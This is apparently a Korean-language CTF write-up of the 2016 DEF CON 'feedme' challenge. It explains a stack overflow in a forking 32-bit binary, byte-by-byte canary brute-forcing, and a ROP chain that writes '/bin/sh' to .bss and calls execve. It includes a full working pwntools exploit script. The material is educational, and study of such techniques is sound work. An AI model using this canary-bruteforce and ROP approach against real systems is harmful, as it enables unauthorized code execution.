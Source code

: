 ```yaml
---
title: "2016 Defcon Feedme"
date: 2019-12-30
tags: [Defcon]
categories: [Defcon]
---
```


```
feedme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
```

바이너리 stripped 되어있고 statically linked라 좀 분석하기 어려워졌다.

`0x0804917A` 여기가 메인 함수고 메인함수에서는 그냥 signal함수를 이용해 SIGALARM을 150초 설정해놨다. 

그 이후  `sub_80490B0` 함수를 호출하는데 이 함수에서는 fork를 이용해 자식 프로세스를 생성한다. 0x31F번을 반복하는데 이 곳에서 우리가 입력받는 함수도 호출해준다. 

```c
int sub_8049036()
{
  unsigned __int8 v0; // ST1B_1
  char *v1; // eax
  int result; // eax
  char v3; // [esp+1Ch] [ebp-2Ch]
  unsigned int v4; // [esp+3Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  sub_804FC60("FEED ME!"); // puts
  v0 = sub_8048E42(); // size
  sub_8048E7E(&v3, v0); // input
  v1 = sub_8048F6E(&v3, v0, 0x10u); // convert 10 -> 16
  sub_804F700("ATE %s\n", v1); // printf
  result = v0;
  if ( __readgsdword(0x14u) != v4 )
    sub_806F5B0();
  return result;
}
```

여기가 우리가 입력받는 함수다. canary가 걸려있다. 

`sub_8048E42()` 함수는 입력한 문자열의 아스키 값을 v0에 저장한다. 

 `sub_8048E7E` 함수에서는 v0의 크기만큼을 입력을 받는데 v3 버퍼에 저장해준다.

`sub_8048F6E` 요기서 16진수 hex값으로 변환해준다. 

`sub_806F5B0()` 여기는 그냥 카나리 값 비교해주고 stack smashing detect 띄워주는 곳이다.

여기서 취약점 터진다. 카나리를 제외하고 buf 크기는 0x20만큼이다. 근데 여기서 buf 다음에 카나리가 있어서 canary 값을 1 byte bruteforce해줘서 canary leak해 줄 수 있다. 그리고 fork를 사용하기 때문에 카나리가 고정 값이다. `stack smashing detected` 가 안 뜰때 까지 bruteforing 해주면 된다.

익스는 그냥 statically linked 바이너리라 웬만한 가젯들이 다 있어서 syscall을 위한 가젯들이 다 있을거다.

 `int0x80 ret;  pop eax ret; pop ebx pop ecx pop ebx ret;` 이 가젯들 이용해서 syscall 다 맞춰줘서 read 이용해 bss영역에 `/bin/sh\x00` 을 넣고 `execve` 함수 이용해서 익스했다. 

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'

e = ELF('./feedme')
p = process('./feedme')

peax = 0x080bb496 # pop eax ; ret
pop3ret = 0x0806f370 # pop edx ; pop ecx ; pop ebx ; ret
int0x80 = 0x0806fa20 # int 0x80 ; ret  ;  (1 found)

canary = ''
p.recvuntil('FEED ME!\n')
for j in range(0,4):
	for i in range(0,256):
		go = 'A'*0x20+canary+chr(i)
		p.send(chr(len(go)))
		p.send(go)
		if not 'stack smashing detected' in p.recvuntil("FEED ME!\n"):
			canary += chr(i)
			print canary
			break
log.info('canary : ' + canary)

payload = 'A'*0x20
payload += canary
payload += 'B'*12
payload += p32(peax) + p32(0x3)
payload += p32(pop3ret) + p32(10) + p32(e.bss()) + p32(0) + p32(int0x80)
payload += p32(peax) + p32(0xb)
payload += p32(pop3ret) + p32(0) + p32(0) + p32(e.bss()) + p32(int0x80)

p.send(chr(len(payload)))
p.send(payload)
sleep(0.1)
p.send('/bin/sh\x00')

p.interactive()
```





